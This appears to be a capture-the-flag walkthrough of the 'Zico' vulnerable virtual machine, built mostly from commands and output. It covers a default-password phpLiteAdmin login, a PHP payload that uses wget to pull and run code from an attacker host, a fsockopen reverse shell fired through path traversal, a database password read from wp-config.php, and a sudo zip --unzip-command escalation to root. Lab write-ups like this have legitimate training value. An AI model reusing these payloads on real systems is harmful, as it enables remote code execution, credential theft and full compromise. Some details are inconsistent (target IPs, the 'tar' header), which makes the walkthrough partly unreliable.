 ZICO

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] phpLiteAdmin - Exploitation - reverse shell (database.php)
[+] Privilege Escalation Abusing SUDO rights -  tar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00083s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33204/tcp  status
|_  100024  1          34732/udp  status
MAC Address: 08:00:27:98:69:CA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.101/dbadimn we found a PhpLiteAdmin v1.9.3. Default password : admin

Reverse Shell

Create Database name " test1.php

Create Table test - Number of fiels 1
In creating new tables “  Filed : test | Type: TXT | value :  <?php system("wget 192.168.56.102/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>

Create a file in /var/www/html

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat /var/www/html/shell.txt 
<?php $sock=fsockopen("192.168.56.102",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


To call the php file, we use path traversal,

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl http://192.168.56.105/view.php?page=../../../../usr/databases/test1.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Receiving a Reverse Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -vnlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 48122
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ pwd
/home/zico/wordpress
$ cat wp-config.php
... snip ...
/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');
 ... sniop ...

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


SSH with zico account : password :sWfCsfJSPV9H3AmQzw8'


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh zico@192.168.56.105
The authenticity of host '192.168.56.105 (192.168.56.105)' can't be established.
ECDSA key fingerprint is SHA256:+zgKqxyYlTBxVO0xtTVGBokreS9Zr71wQGvnG/k2igw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.105' (ECDSA) to the list of known hosts.
zico@192.168.56.105's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

zico@zico:~$
uid=1000(zico) gid=1000(zico) groups=1000(zico)
sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
zico@zico:~$ cd /tmp

zico@zico:~$ mkdir exploit
zico@zico:~$ sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"
  adding: exploit/ (stored 0%)
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

